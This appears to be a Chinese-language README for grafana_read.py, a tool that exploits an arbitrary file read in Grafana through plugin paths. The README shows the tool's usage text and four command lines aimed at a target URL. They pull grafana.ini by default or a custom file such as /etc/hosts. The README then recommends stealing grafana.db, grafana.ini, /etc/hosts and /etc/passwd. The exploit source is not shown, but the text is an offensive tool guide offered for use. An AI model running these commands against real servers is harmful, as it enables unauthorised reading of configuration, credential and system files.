




参考链接:https://mp.weixin.qq.com/s/dqJ3F_fStlj78S0qhQ3Ggw  
grafana_read.py
```text
Usage: grafana_read.py [options]

Options:
  -h, --help  show this help message and exit
  -c ID       默认检测/自定义路径
  -p CHECK    是否使用默认插件路径检测/目标插件路径搜索检测
  -u URL      要检测的url
python grafana_read.py -u <url> -c 0 -p 0 #默认插件路径默认payload检测
python grafana_read.py -u <url> -c 1 -p 0 #页面搜索插件路径检测
python grafana_read.py -u <url> -c 0 -p /etc/hosts #默认插件路径自定义文件读取
python grafana_read.py -u <url> -c 1 -p /etc/hosts #页面搜索插件路径自定义文件读取
```

默认读取:/etc/grafana/grafana.ini  
可以考虑读取以下文件
```text
/var/lib/grafana/grafana.db
/etc/grafana/grafana.ini 
/etc/hosts
/etc/passwd
```

Exmaple:






